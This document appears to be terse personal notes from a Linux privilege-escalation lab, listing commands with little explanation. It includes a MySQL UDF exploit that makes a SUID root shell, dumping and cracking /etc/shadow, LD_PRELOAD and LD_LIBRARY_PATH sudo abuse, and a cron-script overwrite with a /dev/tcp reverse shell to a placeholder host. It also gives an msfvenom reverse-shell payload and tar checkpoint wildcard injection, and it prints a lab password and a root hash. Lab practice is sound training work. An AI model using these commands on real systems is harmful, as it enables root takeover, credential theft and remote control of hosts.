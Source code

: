 # LINUX PRIVESC

```
export IP=10.10.50.217
```
```
ssh user@$IP -oHostKeyAlgorithms=+ssh-rsa
password321
```

https://www.exploit-db.com/exploits/1518

```
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

mysql -u root

use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

exit

/tmp/rootbash -p
rm /tmp/rootbash
exit
```

```
cat /etc/shadow
```

copy the root password and save it to a file called hash.txt (in this case, `$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`), then use john to decrypt it:

```
john --wordlist=~/../../usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash.txt
```

how to make a new password:
```
mkpasswd -m sha-512 12345
```
```
openssl passwd newpasswordhere
```
Create a shared object:
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
A root shell should spawn after this command:
```
sudo LD_PRELOAD=/tmp/preload.so man
```
---
```
ldd /usr/sbin/apache2
```
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
```
sudo LD_LIBRARY_PATH=/tmp apache2
```

```
cat /etc/crontab
```
```
locate overwrite.sh
```
```
ls -l /usr/local/bin/overwrite.sh
```

```
#!/bin/bash
bash -i >& /dev/tcp/my_ip/4444 0>&1
```
Set up a netcat listener and wait for the cron job to run

---

```
cat /usr/local/bin/compress.sh
```
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=`my_ip LPORT=4444 -f elf -o shell.elf
```
```
chmod +x /home/user/shell.elf
```
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```